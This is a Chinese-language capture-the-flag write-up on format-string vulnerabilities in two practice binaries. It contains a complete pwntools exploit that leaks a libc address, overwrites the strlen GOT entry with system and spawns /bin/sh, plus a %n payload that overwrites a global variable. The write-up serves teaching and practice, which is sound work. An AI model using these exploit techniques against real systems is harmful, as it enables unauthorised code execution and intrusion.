






## 0x001 程序分析

使用IDA分析程序



程序流程很简单，就是在一个while循环中，read函数接收输入，sprintf函数拼接字符串，strlen函数判断拼接后的字符串长度不能大于0x10E，printf打印拼接后的字符串。

## 0x002 漏洞分析

该程序由于对printf函数的使用错误，因此存在格式化字符串漏洞。

## 0x003 漏洞利用

由于程序没有提供system函数，因此需要先利用漏洞获取libc地址。

首先通过输入判断偏移为8



之后可以利用 **%8$s** 打印puts函数的真实地址。
```
payload = b"%9$saaaa" + p64(elf.got["puts"])
p.recvuntil("Please tell me:")
p.sendline(payload)
```

这里说明一下，为什么判断出来的偏移是8，后面payload中的偏移要写9呢？因为x64系统下的地址中肯定有 **'\x00'** 存在，为了防止被 **'\x00'** 截断，要将输出内容的地址放在格式化字符串的后面，因此会存在偏移，并且还需要将格式化字符串填充满8位。



这样就可以打印出puts函数的真实地址，然后通过计算获取system函数的真实地址。

最后需要将strlen函数的真实地址修改为system函数的真实地址。
```
strlen_got = elf.got["strlen"]
payload = fmtstr_payload(8, {strlen_got: system_addr}, numbwritten=9, write_size='byte')
p.recvuntil("Please tell me:")
p.sendline(payload)
```

此时，在使用pwntools库中的fmtstr_payload时，就不需要修改偏移了，利用之前获取的偏移量即可。（在使用fmtstr_payload时，默认是x32，需要修改为x64）

最终exp如下：
```
context(arch='amd64', os='linux', log_level='debug')

payload = b"%9$saaaa" + p64(elf.got["puts"])
p.recvuntil("Please tell me:")
p.sendline(payload)

p.recvuntil("Repeater:")
puts_real_addr = u64(p.recv(6).ljust(8, b'\x00'))

libcbase = puts_real_addr - libc.symbols["puts"]
system_addr = libcbase + libc.symbols["system"]

strlen_got = elf.got["strlen"]
payload = fmtstr_payload(8, {strlen_got: system_addr}, numbwritten=9, write_size='byte')
p.recvuntil("Please tell me:")
p.sendline(payload)

p.recvuntil("Please tell me:")
p.sendline(";/bin/sh")

p.interactive()
```

## 0x004 另一道题

另一道格式化字符串漏洞的题型



该题也很简单，通过格式化字符串漏洞，修改全局变量judge=2即可获取系统权限。

还是先来判断下偏移量



可以看到，在先输出一个字符的前提下，偏移量为8。那么此时可构造payload如下：
```
payload = b"BB%9$naaa" + p64(0x60105c)
```

此时的栈情况如下：



也可以利用fmtstr_payload构造payload
```
payload = b"B" + fmtstr_payload(8, {0x60105c: 2}, numbwritten=1)
```

其中第一个B为已经输出的字符，因此需要将numbwritten设置为1，表示已经输出了一个字符，偏移量为8。两种方式都可以成功修改内存，完成利用。